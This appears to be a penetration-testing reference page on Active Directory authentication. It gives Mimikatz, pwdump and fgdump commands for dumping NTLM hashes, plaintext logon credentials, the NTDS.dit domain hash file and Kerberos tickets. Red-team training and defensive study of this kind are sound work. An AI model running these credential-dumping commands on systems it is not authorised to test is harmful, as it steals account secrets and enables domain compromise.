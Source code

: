 # Active Directory Authentication

## NTLM Authentication

We must use the IP (not the FQDN) (remotely) to perform an NTLM authentication.

## Kerberos Authentication

We must use the FQDN (not the IP) (remotely) to perform a kerberos authentication.

## Dumping

### Dumping NTLM Hashes and Plaintext Credentials

NTLM authentication uses a challenge-response model, where a nonce/challenge encrypted using the user's NTLM hash is validated by the Domain Controller.

Dumping LM/NTLM hashes with Mimikatz

* [Full Mimikatz Guide](https://adsecurity.org/?page\_id=1821#SEKURLSALogonPasswords)
* Requires local admin rights.

```powershell
# escalate security token to SYSTEM integrity
mimikatz > privilege::debug
mimikatz > token::elevate

# dump NTLM hashes + plaintext creds
mimikatz > lsadump::sam              # dump contents of SAM db in current host
mimikatz > sekurlsa::logonpasswords  # dump creds of logged-on users
```

Other tools:

```powershell
cmd> pwdump.exe localhost
cmd> fgdump.exe localhost          # improved pwdump, shutdown firewalls 
cmd> type C:\Windows\NTDS\NTDS.dit # all domain hashes in NTDS.dit file on the Domain Controller
```

### Dumping Kerberos Tickets

Kerberos authentication uses a ticketing system, where a Ticket Granting Ticket (TGT) is issued by the Domain Controller (with the role of Key Distribution Center (KDC)) and is used to request tickets from the Ticket Granting Service (TGS) to access services.

* Hashes are stored in the Local Security Authority Subsystem Service (LSASS).
* LSASS process runs as SYSTEM, therefore we need SYSTEM / local admin to dump hashes stored on target.

Dumping Kerberos TGT/TGS tickets with Mimikatz:

```
mimikatz > sekurlsa::tickets
```

See the page "Service Account Attacks" on how to abuse dumped tickets.
